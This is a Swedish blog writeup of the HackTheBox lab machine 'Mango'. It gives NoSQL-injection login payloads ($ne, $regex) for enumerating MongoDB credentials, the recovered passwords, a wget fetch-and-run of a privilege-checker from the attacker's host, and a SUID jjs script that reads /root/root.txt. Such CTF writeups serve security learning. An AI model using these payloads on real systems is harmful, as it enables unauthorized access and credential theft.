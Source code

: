 ```yaml
---
title: "HackThebox: Mango Writeup"
date: 2020-06-4 23:07:44 +0000
categories:
  - blog
tags:
  - CTF
  - HTB
  - Swedish
---
```


Jag ligger ett par veckor efter i planeringen, och skulle egentligen publicerat den här wirteupen för länge sedan, men det går inte alltid som man vill! Jag hoppas kunna fylla på här med mer innehåll snarast möjligt. 

Det här inlägget är en writeup på HTB-maskinen Mango, utöver vanlig recon-aktivitet så innefattar den NoSQL-injektioner i MongoDB, lite lösenordsknäckning via Python & SUID-exploatering för privilege escalation, happy reading! 

# Recon
**nmap -sC -sV -oA nmap/initial 10.10.10.162**

~~~
Nmap scan report for 10.10.10.162
Host is up (0.081s latency).
Not shown: 940 closed ports, 57 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
|_SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Inte så mycket som sticker ut efter att ha kört nmap, däremot uppmärksammade jag ett SSL-cerifikat som exponerade någon form av staging-domän och bestämde mig för att titta på den. 

**SSL-Certifikatet**

ssl-cert: Subject:
commonName=**staging-order.mango.htb**organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
....

Så jag drar igång gobuster mot staging domänen för att se om där finns något spännande, jag letar efter php-filer med växeln -x eftersom index-filen är av typen php.

**gobuster dir -u https://staging-order.mango.htb -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 10 -x php**
~~~


===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://staging-order.mango.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/02/18 17:21:45 Starting gobuster
===============================================================
/index.php (Status: 200)
/analytics.php (Status: 200)
Progress: 17365 / 220561 (7.87%)
~~~

Detta visar att det finns en analytics-applikation jag kan komma åt, det här visade sig vara ett s.k. "Rabbit hole" och ledde ingenstans, därför kommer jag inte skriva mer om det.

På staging-domänen finns annars bara en inloggningssida, och som vanligt när det gäller HTB-maskiner brukar namnet i sig vara en ledtråd & så även denna gång mango = mongoDB? 

![Staging-domän](https://jackhack.se/assets/images/mango/staging.png)
{: .full}

Eftersom MongoDB är en NoSQL-databas bestämde jag mig för att testa NoSQL-injektioner, efter att ha kollat upp NoSQL-injektioner hos [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) startade jag upp Burp suite..

# NoSQL Injection (MongoDB)
Några variabler att hålla koll på vid testning: 

* \$eq     "equal to"
* \$gt     "greater than"
* \$gte    "greater than or equal to"
* \$ne     "not equal to"

Väl i Burp interceptade jag inloggnings-requesten & kollade vilken respons jag fick när jag testade logga in med användarnamnet *admin* & lösenordet *test*, responskoden var 200 OK

![Burp](https://jackhack.se/assets/images/mango/burp_1.png)
{: .full}

Samma request med användarnamnet admin & lösenordet *\[$ne]test* (alltså **INTE** *test*) fick jag istället responskoden 302 Found


![Burp 302](https://jackhack.se/assets/images/mango/burp_2.png)
{: .full}

Testet indikerar på att det finns en användare vid namn admin, som inte har lösenordet *test* och kan logga in på sidan. 

Nu skulle det vara möjligt att tecken för tecken lista ut användarnamn & lösenord genom att använda sig av reguljära uttryck, t.ex.:

**Först ta reda på längden på lösenordet**
* username=admin&password[$regex]=^.{1}&login=login
Responskod 200 (lösenordet är alltså INTE ett tecken)
* username=admin&password[$regex]=^.{2}&login=login
Responskod 200, lösenordet är alltså INTE två tecken
* ...
* username=admin&password[$regex]=^.{12}&login=login
Responskod 302 Found, lösenordet är alltså 12 tecken!

Sedan kan samma regexp-metod användas för att testa alla bokstäver,siffror och specialtecken för att tecken för tecken lista ut lösenordet.

Detta är såklart ingenting man vill göra för hand, tur att det finns script för detta, jag använde följande script från [GitHub](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py)

Efter att ha kört scriptet mot staging-sidan fick jag fram följande inloggningsuppgifter:

* mango:h3mXK8RhU~f{]f5H
* admin:t9KcS3>!0B#2

# User
Eftersom jag kunde se att port 22 var öppen vid Nmap-scanningen testade jag att logga in via SSH, användaren admin fungerade inte men mango-kontot gav access.

Väl inne i maskinen fanns där ingen user-flagga i mango's hemkatalog, så jag bytte till admin-kontot.


~~~
ssh mango@mango.htb

su admin
cd
cat user.txt
~~~
{: .language-bash}
# Root

När jag har fått en limiterad shell brukar jag köra något av privilege escalation scripten LinEnum eller linuxprivchecker, jag förde över linuxprivchecker genom att sätta upp en python-webserver snabbt.

~~~
--- I Kali ---
cd /opt/scripts/
python -m SimpleHTTPServer 80
--- På remote-maskin ---
wget http://10.10.15.23/linuxprivchecker.py
python linuxprivchecker.py
~~~
{: .language-bash}
Scriptet visade en binärfil vid namn "jjs" som har "SUID"-flagga satt och därför kan köras med administratörsrättigheter, jag kollade upp binären i repot [gtfobins](https://gtfobins.github.io/gtfobins/jjs/) för att se vad jag kunde åstadkomma med den. 

Jag fick inte till det med mina försök att använda jjs för att upprätta en reverse-shell mellan min kali-host och maskinen. Däremot kunde jag köra följande kod för att läsa root-flaggan.

~~~
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

root.txt:8a8ef79a7a2fbb01ea81688424e9ab15
~~~
{: .language-bash}

